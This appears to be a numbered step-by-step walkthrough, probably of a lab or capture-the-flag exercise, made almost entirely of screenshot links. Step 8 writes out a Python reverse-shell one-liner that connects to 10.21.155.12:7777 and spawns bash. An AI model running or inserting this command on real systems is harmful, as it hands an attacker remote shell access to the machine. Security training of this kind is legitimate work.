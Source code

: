 1. 
![image](https://github.com/user-attachments/assets/90eb67ec-7a1f-4aa2-b2fa-715fff79aea9)
2.
![image](https://github.com/user-attachments/assets/2e0a0ac5-ce76-4b20-96dc-ebf8d9dcc28a)
3.
![image](https://github.com/user-attachments/assets/900dd442-1184-4cf3-af77-c6e440cf2285)
4.
![image](https://github.com/user-attachments/assets/ecba06f2-0dda-477b-b01c-bc7d13c1cd15)
5.
![image](https://github.com/user-attachments/assets/f474e7f7-7261-499a-957a-66c1016d9da7)
6.
![image](https://github.com/user-attachments/assets/f460c0cb-f42c-4034-b8c9-2dd711c84032)
7.
![image](https://github.com/user-attachments/assets/97abfa4e-c18f-4e4c-b550-be171e558ef3)
8.
**Command: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.155.12",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")**<br>
![image](https://github.com/user-attachments/assets/63517bc0-82de-42f6-a93b-170765b0bd29)
![image](https://github.com/user-attachments/assets/001839cd-5b8a-462a-8884-1352aad494f1)
9.
![image](https://github.com/user-attachments/assets/f2c1aeeb-3137-440d-affd-534bd80bf42b)
10.
![image](https://github.com/user-attachments/assets/23eabe8a-49a6-4a80-bc10-b1640c4a83aa)
11.
![image](https://github.com/user-attachments/assets/5cd3ddb2-b2f8-4dcf-9e75-d1c583bfb1c1)
12.
![image](https://github.com/user-attachments/assets/af0600d8-8f4b-4500-8645-55a72f4dcb92)
13.
![image](https://github.com/user-attachments/assets/1d1c795f-8afa-47ed-83cb-da992676f583)
14.
![image](https://github.com/user-attachments/assets/d52af307-f49d-45e1-85f9-78f6463c77f0)
15.
![image](https://github.com/user-attachments/assets/bde0c096-749e-41e6-914d-1bd9330723a9)
16.
![image](https://github.com/user-attachments/assets/b6ccdee5-f1ba-4b40-821d-b34f0194f573)
17.
![image](https://github.com/user-attachments/assets/c9d610b7-2c56-4512-8a2a-9fbb2074a212)























